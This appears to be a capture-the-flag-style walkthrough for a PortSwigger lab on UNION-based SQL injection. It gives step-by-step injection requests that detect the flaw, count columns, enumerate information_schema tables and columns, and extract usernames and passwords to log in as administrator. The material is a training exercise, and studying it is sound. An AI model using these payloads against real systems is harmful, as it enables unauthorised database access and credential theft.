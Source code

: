 # [Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## tools

same as [lab 5](./5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables.md)

## manual

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```sql
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§--+ HTTP/1.1`
    - payloads: 1 -> 10
    - result: 2 columns
    - [Note the space after the double dash] at MySQL database

3. Finding a column containing text:

    ```sql
    GET /filter?category='UNION+SELECT+'s','s'--+ HTTP/1.1`
    ```

    - => both columns contain text
4. get all table names:

    - <https://portswigger.net/web-security/sql-injection/cheat-sheet>
    - <https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/>  

    ```sql
    GET /filter?category='UNION+SELECT+NULL,TABLE_NAME+FROM+information_schema.tables-- HTTP/1.1`
    ```

    - interesting table : `users_eyresz`

5. get the names of the columns of the table:

    - <https://portswigger.net/web-security/sql-injection/cheat-sheet>
    - <https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/>

    ```sql
    GET /filter?category='UNION+SELECT+NULL,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name+%3d+'users_eyresz'-- HTTP/1.1`
    ```

    - get 2 column names `username_wrogmc` and `password_fvnqui`

6. Exploit:

    ```http
    GET /filter?category='UNION+SELECT+username_wrogmc,password_fvnqui+FROM+users_eyresz-- HTTP/1.1`
    ```

7. login to admin account => Lab Solved
